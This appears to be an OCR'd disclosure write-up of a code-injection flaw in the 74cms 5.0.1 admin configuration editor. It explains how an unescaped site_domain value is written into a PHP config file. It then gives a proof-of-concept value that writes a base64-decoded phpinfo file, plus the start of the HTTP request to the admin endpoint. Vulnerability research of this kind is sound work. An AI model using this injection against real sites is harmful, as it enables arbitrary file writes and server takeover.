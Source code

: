 CONF\_PATH in /ThinkPHP/ThinkPHP.php Line 54: CONF\_PATH.\'url.php\' -\>
/Application/Common/Conf/url.php

    defined('COMMON_PATH')  or define('COMMON_PATH',    APP_PATH.'Common/'); // 应用公共目录
    defined('CONF_PATH')    or define('CONF_PATH',      COMMON_PATH.'Conf/');
    define('APP_PATH','./Application/');

var\_export(): Quote string with slashes&Convert special characters to
HTML entities -\> stripslashes(): un-quotes a quoted string -\> Convert
special characters to HTML entities -\> write file

    file_put_contents($config_file, "<?php \nreturn " . stripslashes(var_export($config, true)) . ";",LOCK_

/Application/Home/Conf/url.php: The code after \"return array(\...);\"
does not work, so payload is site\_domain=\', {your php code},\'

    <?php 
    return array (
      'URL_MODEL' => 0,
      'URL_HTML_SUFFIX' => '.html',
      'URL_PATHINFO_DEPR' => '/',
      'URL_ROUTER_ON' => true,
      'URL_ROUTE_RULES' => 
      array (
        '/^jobfair\/(?!admin)(\w+)$/' => 'jobfair/index/:1',
        '/^mall\/(?!admin)(\w+)$/' => 'mall/index/:1',
      ),
      'QSCMS_VERSION' => '5.0.1',
      'QSCMS_RELEASE' => '2019-03-19 00:00:00',
      'SESSION_OPTIONS' => 
      array (
        'domain' => '.0.1',
        0 => 18,
        1 => '',
        'path' => 'D:\***\***\***\WWW\74cms\data\session',
      ),
      'COOKIE_DOMAIN' => '.0.1',
      0 => 18,
      1 => '',
    );

### 复现poc

-\> PD9waHAgcGhwaW5mbygpOz8+

site\_domain=\',
file\_put\_contents(\'403.php\',base64\_decode(\'PD9waHAgcGhwaW5mbygpOz8+\')),\'

    POST /74cms/index.php?m=Admin&c=config&a=edit HTTP/1.1
    Host: 127.0.0.1
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:63.0) Gecko/20100101 Firefox/63.0
    Accept: application/json, text/javascript, */*; q=0.01
    Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
    Accept-Encoding: gzip, deflate
    Referer: http://127.0.0.1/74cms/index.php?m=Admin&c=Config&a=index
    Content-Type: application/x-www-form-urlencoded; charset=UTF-8
    X-Requested-With: XMLHttpRequest
    Content-Length: 465
    Connection: close
    Cookie: PHPSESSID=arm0lvlbbfocml5vvac1tf3ph3; think_language=zh-CN; think_template=default
